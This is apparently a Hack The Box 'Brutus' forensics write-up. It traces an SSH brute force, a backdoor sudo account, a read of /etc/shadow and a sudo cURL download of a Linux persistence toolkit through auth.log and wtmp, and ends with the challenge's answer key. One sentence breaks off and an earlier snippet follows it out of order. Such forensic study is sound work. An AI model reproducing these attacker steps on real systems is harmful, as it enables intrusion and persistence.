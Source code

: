 # Brutus | Easy

#confluence #authlog #wtmp #bruteforce #ssh

In this very easy Sherlock, you will familiarize yourself with Unix `auth.log` and `wtmp` logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using `auth.log`. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Data

##### auth.log

- Logs successful and failed logins
- `sudo` and `su` attempts, and other authentication processes
- Locations:
	- `/var/log/auth.log` (Debian/Ubuntu)
	- `/var/log/secure` (RedHat/CentOS)

Format (ref: [RFC5424](https://datatracker.ietf.org/doc/html/rfc5424#section-6))

```
<Timestamp> <Hostname> <Service>[<process_id>]: <Message>
```

##### wtmp

One of three files which track login/logout activity on Linux systems.

- `/var/run/utmp`: Tracks currently logged in users (displayed with `who`/`w` command or the `utmpump /path/to/wtmp` utility)
- `/var/log/wtmp`: Keeps historic log of login/logout activity (displayed with `last` command)
- `/var/log/btmp`: Keeps a record of invalid login attempts (displayed with `lastb` command)

Format (ref: [wtmp man - Event Types](https://linux.die.net/man/5/wtmp))

```
[Event Type] [PID] [Terminal ID] [User] [Host] [IP Address]
```

## Walkthrough

Taking the `auth.log` file, we have 385 entries spanning a 21 minute time period - `06:18:01` to `06:41:01`. Sorting by service, we see the majority of the traffic comprise `sshd` and `cron` logs:

```
$ cat auth.log | cut -d' ' -f 6 | cut -d[ -f1 | sort | uniq -c | sort -nr
```

Firstly, we see a successful logon for the `root` user from IP `203.101.190.9`. From `06:31:31` to `06:31:44`, there is a large volume of traffic from IP `65.2.161.68` of several attempts to authenticate as 5 distinct users, indicative of bruteforce activity.

Looking for successful attempts, we see the actor successfully logged in as `root` on two occasions (`06:31:40` and `06:32:44`) and `cyberjunkie` at `06:37:34`. The first successful login for `root` takes place during the time of the suspected bruteforce activity with that session being disconnected at the same time:

```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Received disconnect from 65.2.161.68 port 34782:11: Bye Bye
```

The second session occurs after the bruteforce activity, indicating the actor manually logged in as `root` with the valid credentials found previously.

#### root Session

Corroborating this with `wtmp`, we see a type 7 event corresponding to a `USER_PROCESS` initiated as a result of a successful login as `root` from the IP in question at `06:32:45` - one second following the successful attempt in `auth.log`.

```
$ utmpdump wtmp | grep "\[7\]" | grep 65.2.161.68
...
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
```

Looking at the surrounding logs for the second `root` session, we see the password was accepted at `06:32:44` as stated above. The `systemd-loginid` service then assigns an ID of 37 for the session.

```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

Following this, the user created a new local user, `cyberjunkie`, adding the user to `sudo` group between `06:34:18` and `06:35:15` before disconnecting from the system at `06:37:24`, lasting a total time of 279 seconds. This method of persistence corresponds to [MITRE ATT&CK - T1136.001](https://attack.mitre.org/techniques/T1136/001/).

```
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

#### cyberjunkie Session

From the `auth.log` file, the actor logs in as `cyberjunkie` at `06:37:34` and assigned session ID 49 - given as `06:37:35` in `wtmp`.

The actor then printed out the contents of `/etc/shadow` via `/usr/bin/cat` at `06:37:57` as well as making a cURL request to `https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` to download the Linux persistence toolkit. Both actions were carried out using the `sudo`

Following the bruteforce activity, we see a successful authentication for the `root` user:

```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```



-----

1. Analyzing the `auth.log`, can you identify the IP address used by the attacker to carry out a brute force attack?

```
65.2.161.68
```

2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

```
root
```

3. Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

```
2024-03-06 06:32:44
```

4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

```
37
```

5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

```
cyberjunkie
```

6. What is the MITRE ATT&CK sub-technique ID used for persistence?

```
T1136.001
```

7. How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the `auth.log`? (seconds)

```
279
```

8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

-----

https://0xdf.gitlab.io/2024/04/09/htb-sherlock-brutus.html#timeline